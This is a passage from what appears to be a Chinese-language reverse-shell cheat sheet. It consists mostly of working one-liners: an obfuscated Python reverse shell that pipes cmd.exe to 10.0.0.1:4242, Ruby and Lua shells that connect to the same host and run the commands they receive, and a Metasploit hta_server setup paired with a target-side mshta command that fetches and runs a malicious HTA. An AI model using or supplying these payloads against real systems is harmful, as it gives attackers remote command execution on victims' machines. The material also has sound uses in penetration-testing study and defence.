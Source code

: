 ```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**ruby**
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**lua**
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

**Mshta.exe**

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

Metasploit 包含“ HTA Web服务器”模块，该模块会生成恶意的 hta 文件。该模块托管一个 HTML 应用程序（HTA），该应用程序在打开时将通过 Powershell 运行有效负载。当用户导航到 HTA 文件时，在有效载荷执行之前 IE 会提示两次。

攻击端
```bash
use exploit/windows/misc/hta_server
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
目标端
```cmd
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```
